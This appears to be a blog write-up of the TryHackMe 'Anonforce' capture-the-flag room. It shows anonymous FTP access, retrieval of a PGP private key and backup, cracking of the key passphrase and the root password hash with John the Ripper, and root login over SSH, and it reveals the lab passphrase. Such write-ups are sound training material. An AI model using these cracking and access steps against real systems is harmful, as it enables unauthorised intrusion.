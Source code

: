 ```yaml
---
layout: post
title: "Anonforce"
date: 2022-02-04
categories: [Tryhackme, Easy-THM]
tags: [security]
image: ../../assets/img/posts/anonforce.png 

---
```


## Description

You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth. 

|**Room**|[Anonforce](https://tryhackme.com/room/bsidesgtanonforce)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[stuxnet](https://tryhackme.com/p/stuxnet)|

---

Deploy the machine and quickly scan the ports with rustscan,

```bash
rustscan -a 10.10.246.163
```

![image](https://user-images.githubusercontent.com/67465230/187165309-d20b64f8-0d80-4ac9-8a8f-5d4394df9fb4.png)

we get 2 open port. Lets scan this using nmap,

```bash
nmap -sV -sC -p21,22 10.10.246.163 -oN nmap.txt
```

![image](https://user-images.githubusercontent.com/67465230/187165361-4d72f3f5-5612-48ed-a824-f283a767a852.png)
![image](https://user-images.githubusercontent.com/67465230/187165399-d94b4acd-435a-4606-a9e2-43fbaf9afe1d.png)

Result scan reveals that port 21 is running vsftpd with anonymous login and port 22 is running ssh service. Enumerate port 21.

Lets connect to ftp service,

```bash
ftp 10.10.246.163
```

![image](https://user-images.githubusercontent.com/67465230/187165464-46044d48-b0be-452e-95f9-ba130f2e1f94.png)

we got in.

Establishing directory content,

![image](https://user-images.githubusercontent.com/67465230/187165507-bba5445e-f7da-4a8d-8f99-997bf9e22716.png)

navigating to home directory and list directory content,

![image](https://user-images.githubusercontent.com/67465230/187165551-1227f979-d303-4b00-9d15-a24e21847466.png)

we got melodias user.

navigating to user directory and list directory content,

![image](https://user-images.githubusercontent.com/67465230/187165597-9583732e-1cb0-48cd-b64a-4ec850bcb78e.png)

we got our user flag. But since we cannot read it, we can take this user.txt file on our system using `get`,

```bash
get user.txt
```

Now, there is also a **notread** directory in system directory as well, so taking a look inside directory reveals that there are 2 files backup.pgp file and private.asc,

![image](https://user-images.githubusercontent.com/67465230/187165628-fa93c85b-c9dc-4a3a-ab63-35dc8d668e41.png)

We can get these files on our system,

```bash
get backup.pgp
get private.asc
```

We can convert this key into crack-able hash,

```bash
gpg2john private.asc > crackmejohn
```

Now using JTR, we can crack the hash,

```bash
john crackmejohn --wordlist=/usr/share/wordlists/rockyou.txt
```

![image](https://user-images.githubusercontent.com/67465230/187165680-d9e43be5-30ae-4381-aa08-5174fb47b74c.png)

we got our password, xbox360.

Now, we can import this private key so that we can decrypt the backup key,

```bash
gpg --import private.asc
```

![image](https://user-images.githubusercontent.com/67465230/187165727-c1c6d933-df95-4fc2-a856-ee68d3e858ba.png)

Now, we can decrypt the backup.pgp file using the password we got,

```bash
gpg --output backup --decrypt backup.pgp
```

![image](https://user-images.githubusercontent.com/67465230/187165766-1627dd00-445c-422c-aaaf-27ba18a898a7.png)

Reading the content of backup we just decrypted,

![image](https://user-images.githubusercontent.com/67465230/187165878-d613c777-3580-4153-9635-ef95699399c3.png)

We got the password hash of root user.

Let's put this hash in a file,

```bash
echo "$6$07nYFaYf$************************************************.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0" > root_hash
```

Now, using JTR to crack this hash,

```bash
john root_hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![image](https://user-images.githubusercontent.com/67465230/187166130-4f989667-7fd0-4b47-b353-0c2401f0cfc2.png)

We can get into machine via ssh,

```bash
ssh root@10.10.246.163
```

![image](https://user-images.githubusercontent.com/67465230/187166171-f989b132-859d-4994-bf49-459581162881.png)

we get in as root user.